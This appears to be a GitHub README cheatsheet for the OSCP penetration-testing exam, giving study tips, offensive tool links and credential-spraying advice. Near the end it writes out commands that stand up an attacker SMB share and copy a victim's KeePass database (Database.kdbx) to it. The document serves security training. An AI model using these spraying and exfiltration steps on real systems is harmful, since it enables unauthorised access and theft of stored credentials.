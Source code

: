 v.0.1

First rule is: No cheatsheet is a great as the one you forge with your own hands. Rewrite the pdf with your own words!

**This is the key to success.**

And to make as many labs as you can.

Having conquered the OSCP with a flawless victory (maxed out score), I've honed a razor-sharp methodology that cuts through the noise. This is not your run-of-the-mill cheatsheet bloated with trivialities. It's a lean, lethal collection of the absolute essentials — the pure bone meat of the craft.

Let's kick this off by saying the current version of the course (2023) is rock solid. With the labs, it'll gear you up good for the exam. I'm pumped to hit the next learning trail.
## Core Tenets:
- **Precision Over Complexity**: 
  - The core of success lies in a solid methodology.
  - However, remember to keep it straightforward—this is a basic exam, after all.
- **Don't Panic**: Stay cool under fire. Panic clouds judgement and leads to errors. Embrace the grind and remember, you've trained for this! 
- **Scheduled Breaks**: Adhere to pre-planned breaks to rest your mind and body. It's a marathon, not a sprint. 
- **Recharge**: Step outside, take a walk with your dog ; A short nap can reboot your mind, enhancing your problem-solving abilities upon return. 
- **Report:** Be ready to write it, simplify the method to the max, that's all. It can be word, but not from offsec, they have fucked up formatting.

## Initial Foothold: Where to Begin

- Acquired the target's hostname? Enlist it in `/etc/hosts`. Still in the dark? Engage in rigorous enumeration!
- Feel something is missing? Use different tool/flag or... revert!
- Don’t jump, check every corner like a pro.
- If you don't have fully functional shell, try to make one, some exploits depends on this.


## Digital Armory: Websites at Your Fingertips

Now, I'll provide you with a list of web resources you should have at your fingertips, along with insights on how to utilize them proficiently.

You know what is the best way to check if you see something unusual?
HIT UP GOOGLE AND HACKTRICKS! 

**google:** bla bla hacktricks

**google:** bla bla vulnerability

No nonsense here. I’ve listed only the rare and not-so-obvious commands. In the exam or on the field, you’ll encounter the unknown. No need to cram the whole web onto this cheatsheet.

https://www.revshells.com/

https://wadcoms.github.io/

https://lolbas-project.github.io/#

https://gtfobins.github.io/

https://gchq.github.io/CyberChef/

https://hashcat.net/wiki/doku.php?id=example_hashes

https://github.com/swisskyrepo/PayloadsAllTheThings

https://crackstation.net/

https://gchq.github.io/CyberChef/

The sequence doesn’t matter; master them. For me, this was my toolkit.

## Cyber Arsenal: Tools of The Trade

I ain’t spoon-feeding you descriptions, work these tools out yourself. Most ain’t in the course, but they’re gold. If they show up in the course, you better damn well sit up. These are the kinds of tools I’d have killed to know from the get-go.

##### AutoRecon
https://github.com/Tib3rius/AutoRecon
##### FeroxBuster
https://github.com/epi052/feroxbuster
##### enum4linux-ng
https://github.com/cddmp/enum4linux-ng
But remember, young Padawan, different version on Kali there is, yields different results it does. Equally intriguing both may be, worth checking with both, it is!
##### CrackMapExec 
https://github.com/mpgn/CrackMapExec
And awesome cheatsheet: https://cheatsheet.haax.fr/windows-systems/exploitation/crackmapexec/
##### PrivescCheck
https://github.com/itm4n/PrivescCheck/tree/master
##### SweetPotato
https://github.com/CCob/SweetPotato
##### JuicyPotatoNG
https://github.com/antonioCoco/JuicyPotatoNG
##### GodPotato
https://github.com/BeichenDream/GodPotato
##### pspy
https://github.com/DominicBreuker/pspy
##### A single click single file web server for Windows
https://github.com/faustinoaq/sswws

And now, trumpets blaring, the essentials you need to grasp to catapult your cyber existence to a realm of ease:
##### ligolo-ng
https://github.com/Nicocha30/ligolo-ng


## SPRAY 'EM ALL: The "I'm stuck" Crusade

Stumbled upon a new user? **Throw it into `USERS.TXT`.**  

Caught wind of a new password? Or something that smells like one? **Toss it into `PASSWORDS.TXT`.**  

Now, unleash the spray! **SPRAY! SPRAY! SPRAY!**

Whether it’s FTP, SSH, CME, SMB, Kerberos, admin consoles, or any credential-hungry beast, **feed 'em all.**  
Default creds? Dumb creds? **Throw 'em into the fray.**  
Encountered an alien software? Or a familiar one? **Hunt down those default credentials.**

New user on the block? Try the ol’ **username:password** trick. `user:user`, `admin:admin`, you know the drill.  
Password cracking playing hard to get? **Spin the username as the password.**  
Hashcat playing coy? Tried the rules? Now serenade it with **John**, or take **Crackstation** out for a spin.  
John acting pricey? **Invite Hashcat and Crackstation to the dance.**  
Crackstation not cutting it? **Hashcat and John might just do the tango.**

With the clock ticking away, I hammered down the final privilege escalation just an hour before the curtain call. And you know what? It's all thanks to keeping a cool head. Being damn calm in the chaos is not just good—it's golden!
## Weak Spots and hints: 

Now I'll unveil some tactical strikes against the soft points of various things.

```bash
xfreerdp /v:IP /u:USERNAME /p:PASSWORD +clipboard /dynamic-resolution /drive:/
usr/share/windows-resources,share
```

Do you know that you do can do sth like this?

Do you want to compile files correctly?

Use this: https://github.com/X0RW3LL/XenSpawn

Do you know how to transfer files like with **SMB?** 

Attacker:
```bash
sudo impacket-smbserver -smb2support sharename /tmp
```

Victim:
```shell
net use \\192.168.00.000\sharename
```

```bash
copy .\Database.kdbx \\192.168.00.000\sharename
```


-----

-  I'll keep this updated.
- I hammered out this "cheatsheet" reflecting on what I would have wanted by my side as I kicked off my OSCP adventure.
- Got suggestions? Hit me up at [raphostrovsky@pm.me](mailto:raphostrovsky@pm.me).
